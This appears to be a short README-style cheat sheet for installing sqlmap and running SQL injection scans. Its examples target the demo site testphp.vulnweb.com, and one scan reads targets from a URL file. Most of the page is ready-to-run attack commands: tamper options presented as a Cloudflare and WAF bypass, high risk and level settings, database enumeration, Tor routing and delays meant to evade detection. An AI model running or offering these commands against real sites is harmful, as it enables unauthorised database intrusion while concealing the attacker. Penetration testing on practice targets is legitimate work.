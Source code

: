### Installtion
```
cd /opt/ && sudo git clone https://github.com/sqlmapproject/sqlmap.git
cd
sudo ln -sf /opt/sqlmap/sqlmap.py /usr/local/bin/sqlmap
sqlmap -h
```
### Cloudflare bypass tamper=space2comment,between,randomcase
```
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1*" --batch --random-agent --risk=3 --level=5 --current-db --tamper=space2comment,between,randomcase --no-cast
```
### file based scan
```
sqlmap -m sqli_urls.txt --random-agent --batch --level=3 --risk=2 --current-db --tamper=space2comment,between,randomcase
```
### More waf bypass
```
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1*" --tor --time-sec 20 -‐banner --delay 10 --tamper=space2comment,between,randomcase
```

